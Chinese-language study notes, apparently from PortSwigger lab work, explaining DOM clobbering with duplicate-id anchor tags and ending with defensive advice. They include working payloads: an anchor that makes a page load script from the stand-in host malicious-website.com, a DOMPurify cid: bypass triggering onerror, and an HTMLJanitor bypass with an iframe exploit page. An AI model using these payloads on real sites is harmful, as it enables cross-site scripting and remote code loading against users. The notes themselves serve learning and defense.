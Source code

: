 **覆写方式**

1. 直接注入js代码覆盖变量（鸡肋，那可以直接xss了）

2. 某些情况下，只能注入HTML标签，那么，可以注入两个相同id的a标签来覆盖某个全局变量，浏览器会自动把它们归属到同一个DOM集合，这个过程是创建一个对象来存储它们，对象名是id，这个对象的属性，将会是标签的名字，也就是name属性的值，不同的name就会有不同的属性，这个对象属性的值，将会是这个a标签的href值（可能是为方便管理吧，值得注意的是，这样创建的对象将拥有全局属性，可通过window.来访问）。

   ```html
   目标代码
   <script>
       window.onload = function(){
           let someObject = window.someObject || {};
           let script = document.createElement('script');
           script.src = someObject.url;
           document.body.appendChild(script);
       };
   </script>
   攻击代码
   <a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>
   ```

就只注入js代码而言，XSS漏洞是DOM漏洞的充分条件，所以一般漏洞发生在HTML的标签注入，发生在网站使用某种库过滤js代码，过滤不安全输入的场景。

**攻防思路**（覆写方式2）：评价：看看就好

1. 当网页使用DOMPurify filter来过滤输入，以减少DOM 漏洞时，使用cid:协议（DOMPurity自定义的），可以让链接中的特殊符号不被url编码 (a标签可以闭合也可以不闭合)

   ```html
   <a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
     最终渲染到
     <img class="avatar" src="cid:" onerror="alert(1)//&quot;">
   ```

   在上面的代码中，两个标签会被注入，\&quot;会被HTML编码为双引号，然后在页面渲染到时候，不会进行特殊的编码

2. 网页使用HTMLJanitor来过滤节点和节点的属性，通过阅读其源码，发现其过滤的关键用到了attribute属性，于是我们可以创建一个含有id=attribute的节点，这样取代了这个库的attribute，计算node.attributes.length的时候会导致无限大，然后循环报错，使得该库的过滤函数异常返回。这样可以实现XSS的属性注入

   ```html
   目标网站的过滤逻辑：
   <script>
   new HTMLJanitor({tags: {input:{name:true,type:true,value:true},form:{id:true},i:{},b:{},p:{}}});
   </script>
   注入代码：
   <form id=x onfocus=print()><input id=attributes>
   恶意网站的代码：
   <iframe src=https://YOUR-LAB-ID.web-security-academy.net/post?postId=3 onload="setTimeout(()=>this.src=this.src+'#x',500)">
   ```

   有个值得学习的地方，对于id=x,然后配合iframe强制让url加上#x，这样可以触发onfocus函数，就像img的onerror一样，直接触发，不需要用户操作

**防范方法：**

1. 检查对象是否合法，当使用一个对象的属性的时候，属性如果可能存在DOM clobbering的风险，那需要检查该属性是否是Dom节点，而不是HTML标签（需要另外查资料）
2. 避免让全局变量和逻辑或一起使用
3. 使用类似经过测试的DOMPurify库来做过滤
